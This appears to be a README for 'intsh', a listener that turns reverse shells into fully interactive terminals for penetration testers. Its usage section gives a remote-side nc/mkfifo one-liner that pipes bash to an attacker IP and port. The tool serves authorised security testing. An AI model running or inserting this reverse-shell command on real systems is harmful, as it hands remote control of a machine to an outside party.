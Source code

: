 # intsh
Grab a fully interactive reverse-shell

intsh is a reverse-shell listener for pentesters too lazy to make their reverse shell interactive manually.

intsh automates the process of setting the tty to raw mode, setting the columns and rows, and handling terminal resizes.

It ensures interactive programs like vim can be used flawlessly through reverse-shells.

## Usage:
Local-side (listener):
```sh
python3 intsh.py <port>
```

Remote-side:
```sh
rm -f f; mkfifo f; <f nc <attacker-ip> <attacker-port> | bash > f
```
